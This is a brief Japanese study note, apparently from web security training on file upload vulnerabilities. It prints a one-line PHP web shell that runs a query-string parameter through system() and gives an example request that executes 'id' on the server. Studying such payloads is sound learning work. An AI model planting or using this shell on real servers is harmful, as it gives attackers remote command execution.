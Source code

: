
Date: 2025-09-24
Tags: 
Links: [[WSA]], [[File Upload Vulnerabilities]]

***


```php
<?php echo system($_GET['command']); ?>
```

- $\_GET['command']：HTTP リクエストのクエリ文字列 ?command=... から値を取得します。
- system()：PHP の組み込み関数で、引数に与えた文字列をシェルで実行し、その標準出力を返します（実行結果は直接出力される）。
- echo：結果を HTTP レスポンスの本文としてクライアントに返します。
つまり、ブラウザやツールで https://example.com/exploit.php?command=id のようにアクセスすると、サーバ上で id コマンドが実行され、その出力が返ってくる — という動作をします。



***
# References